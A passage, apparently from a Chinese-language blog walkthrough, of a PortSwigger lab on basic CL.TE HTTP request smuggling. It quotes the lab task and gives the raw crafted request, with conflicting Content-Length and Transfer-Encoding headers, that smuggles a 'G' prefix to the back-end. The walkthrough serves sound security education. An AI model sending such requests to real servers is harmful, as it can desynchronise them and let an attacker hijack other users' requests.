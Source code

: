 首先我们来看 CL-TE 的情况：[Lab: HTTP request smuggling, basic CL.TE vulnerability](https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te)

> This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. The front-end server rejects requests that aren't using the GET or POST method.
> 
> To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method GPOST.

根据题目提示，我们只需要让 Backend 服务器收到 GPOST 方法即可，而且场景也明确告诉我们是一种 CL-TE 的场景。

```bash
POST / HTTP/1.1
Host: ac8f1fae1e6cd77b8073213100b500d6.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

根据题目的提示要求，这里我们发送两次以上 HTTP 请求包：

[![](assets/1698897445-18df04cdd780a5d7ceb2ddf5373dd5e3.jpg)](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191013190441.jpg)
